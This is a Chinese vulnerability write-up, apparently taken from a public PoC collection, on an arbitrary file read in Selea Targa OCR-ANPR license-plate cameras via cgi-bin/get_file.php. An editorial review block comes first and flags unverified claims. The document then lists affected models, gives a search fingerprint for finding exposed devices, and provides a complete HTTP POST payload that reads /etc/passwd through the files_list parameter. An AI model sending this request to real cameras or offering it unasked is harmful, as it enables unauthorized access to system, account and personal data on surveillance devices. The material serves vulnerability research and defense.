


# Selea OCR-ANPR摄像机 get_file.php 任意文件读取漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Selea OCR-ANPR/Targa系列摄像机
- 本文讨论：cgi-bin/get_file.php files_list任意文件读取
- 版本、权限与配置前提：携带PHPSESSID/语言Cookie，9型号未给固件
- 资料类型：文件读取PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- POST有表单体却无Content-Type/Content-Length，且会话来源未说明
- 此接口与SeleaCamera路径穿越不同，不能以产品/读文件效果合并
- 无回显文本/修复/原始公告
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证
- 样例会话、令牌或共享秘密已按具体值遮罩中段并保留首尾；不能直接用于请求。公开默认/测试凭据与算法常量不因长得像密码而改写；其用途仍须按原文说明判断

### 操作风险与恢复

- 读取内容可能包含配置、账户或个人数据；应只保存授权环境中最小必要且已脱敏的响应，不能由接口可达推定敏感内容已泄露

### 待核与来源

- 认证是否必须及文件权限/固件待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

Selea OCR-ANPR摄像机 get_file.php存在 任意文件读取漏洞，通过构造特殊请求获取服务器文件

## 漏洞影响

```
Selea Selea Targa IP OCR-ANPR Camera iZero
Selea Selea Targa IP OCR-ANPR Camera Targa 512
Selea Selea Targa IP OCR-ANPR Camera Targa 504
Selea Selea Targa IP OCR-ANPR Camera Targa Semplice
Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM
Selea Selea Targa IP OCR-ANPR Camera Targa 805
Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX
Selea Selea Targa IP OCR-ANPR Camera Targa 750
Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB
```

## 网络测绘

```
"selea_httpd"
```

## 漏洞复现

登录页面如下



发送如下请求包

```http
POST /cgi-bin/get_file.php HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: lang=en; PHPSESSID=bvi********************ou0

name=test&files_list=/etc/passwd
```




---

> 来源：Threekiii/Awesome-POC
